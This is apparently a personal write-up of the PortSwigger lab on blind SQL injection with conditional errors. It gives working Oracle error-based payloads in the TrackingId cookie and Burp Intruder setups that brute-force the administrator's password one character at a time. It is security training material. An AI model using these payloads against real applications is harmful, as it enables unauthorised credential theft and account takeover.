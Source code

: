 # **Lab: Blind SQL injection with conditional errors** - [Link](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)


**Goal:**
Exploit a blind SQL injection vulnerability that **reveals errors on condition** to extract the administrator’s password and log in.


## **Step-by-step:**

### 1. Confirm Blind SQLi with Conditional Errors

Inject into the `TrackingId` cookie:

* `' or 1=1--` → 200 OK
* `' or 1=2--` → 200 OK
* `' and 1=1--` → 200 OK
* `' and 1=2--` → 200 OK

Then i searched online and found the following **conditional error-based payloads**:

```sql
SELECT CASE WHEN (condition) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```
This will **cause a division-by-zero error** when condition is true.

Try:

* `' || (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--` → ✅ 200 OK
* `' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--` → ❌ 500 Internal Server Error

→ The error is **triggered only when condition is true**. We can use this to extract data.


### 2. Confirm Target Table

Challenge says there's a `users` table with `username` and `password`.

Use the query on a specific row:

```sql
' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

→ ✅ 200 OK
So, the row for `administrator` exists.

---

### 3. Find Password Length

Use this pattern:

```sql
' || (SELECT CASE WHEN (LENGTH(password)=N) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```
Here, N = Natural number

Use **Burp Intruder** to automate:

* **Sniper Attack**
* **Payload position:** N
* **Payload type:** Numbers (from 1 to 30)

📌 Payload example:

```
TrackingId=xClmxDIEkzdbdGdj'+||+(SELECT+CASE+WHEN+(length(password)%3d§1§)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')--;
```

Response gives 500 error only for **20** → Password length = **20**


### 4. Extract Password (1 char at a time)

Use `SUBSTR()` to extract character at a specific position:

```sql
SUBSTR(password, position, 1)
```

Test like:

```sql
' || (SELECT CASE WHEN (SUBSTR(password, 1, 1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

Now automate using **Burp Intruder**:

* **Attack type:** Cluster Bomb
* **Payload positions:**

  * `$1$` → Numbers (1 to 20)
  * `$a$` → Brute forcer (minlen 1, maxlen 1)

Example payload:

```
TrackingId=xClmxDIEkzdbdGdj' || (SELECT CASE WHEN (SUBSTR(password,$1$,1)='$a$') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--;
```

Find which character causes **500 error** for each position.


### 5. Final Result

Extracted password:

```
0w1gth039w6at3o1fb95
```

Login with:

* **Username:** administrator
* **Password:** 0w1gth039w6at3o1fb95


**Lab Solved**
